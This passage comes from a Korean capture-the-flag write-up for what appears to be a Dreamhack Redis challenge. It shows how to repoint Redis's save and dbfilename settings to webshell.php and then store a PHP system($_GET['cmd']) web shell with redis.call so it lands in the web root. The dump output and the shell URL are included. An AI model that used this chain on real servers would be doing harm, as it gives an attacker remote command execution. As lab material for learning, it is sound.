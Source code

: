 ```
# Save the DB to disk.
#
# save <seconds> <changes> [<seconds> <changes> ...]
#
# Redis will save the DB if the given number of seconds elapsed and it
# surpassed the given number of write operations against the DB.
#
# Snapshotting can be completely disabled with a single empty string argument
# as in following example:
#
# save ""
#
# Unless specified otherwise, by default Redis will save the DB:
#   * After 3600 seconds (an hour) if at least 1 change was performed
#   * After 300 seconds (5 minutes) if at least 100 changes were performed
#   * After 60 seconds if at least 10000 changes were performed
#
# You can set these explicitly by uncommenting the following line.
#
# save 3600 1 300 100 60 10000
```
[https://raw.githubusercontent.com/redis/redis/unstable/redis.conf](https://raw.githubusercontent.com/redis/redis/unstable/redis.conf)<br />
Redis의 Configuration 문서를 살펴보면 save라는 항목이 보인다. <br />
일종의 백업 시스템이다. 특정 양의 값들이 변했을 때 특정 시간 뒤에 지금까지의 DB 데이터를 서버 파일에 저장하는 메커니즘이다.<br />

즉, save 값을 60 10000(10000개의 값의 변화가 있다면 60초 후 저장)이던 것을 30 0로 변경해서 DB에 값을 입력하자마자 해당 값이 서버에 저장되도록 할 수 있다.<br />

```
# The filename where to dump the DB
dbfilename dump.rdb
```
또 문서를 보면 dbfilename 값이 가지는 파일 이름으로 DB에 백업 파일이 저장되는 걸 알 수 있다.<br />
해당 값을 config 페이지를 이용해서 `webshell.php`로 바꿔준다. <br />

이렇게 해서 `save: "30 0"`, `dbfilename: "webshell.php"`로 변경이 됐다.<br />

이제는 메인 페이지에서 웹쉘을 삽입하면 된다. 삽입하는 방법은 위 과정을 수행했다면 간단하다. `redis.call()`을 이용한다.
```
return redis.call("set", "webshell", "<?php system($_GET['cmd']); ?>")
```
이렇게 작성하면 webshell이라는 키를 가진 DB Entity가 생성된다. 동시에 save 설정 값을 DB의 값 변화와 동시에 백업 파일을 저장하도록 했기 때문에 webshell의 value 값이 파일에 저장이 된다. <br />
그러므로 `dbfilename`으로 설정해두었던 `webshell.php`에 `<?php system($_GET['cmd']); ?>`이 저장이 된다.

```
REDIS0009� redis-ver5.0.14� redis-bits�@�ctime����g�used-mem+�aof-preamble���webshell  
**Warning**: system(): Cannot execute a blank command in **/var/www/html/webshell.php** on line **2**  
�زl�1PHPREDIS_SESSION:b3e3c543496b7c5cba68a74f28176ed5�@�C(history_cnt|i:9;h�0|s:70:"return redis.call("set", "webshell@  
**Warning**: system(): Cannot execute a blank command in **/var/www/html/webshell.php** on line **2**  
")"�W1�NW2�NW3�NW4�NW5�NW6�NW7�NW8�DW";��%"~���
```
http://host1.dreamhack.games:{port}/webshell.php 에 접근하면 이런 화면이 뜨게 된다. 웹 쉘을 좀 더 예쁘게 작성해도 됐지만 지금은 상관없으니 그냥 이대로 두었다.<br />
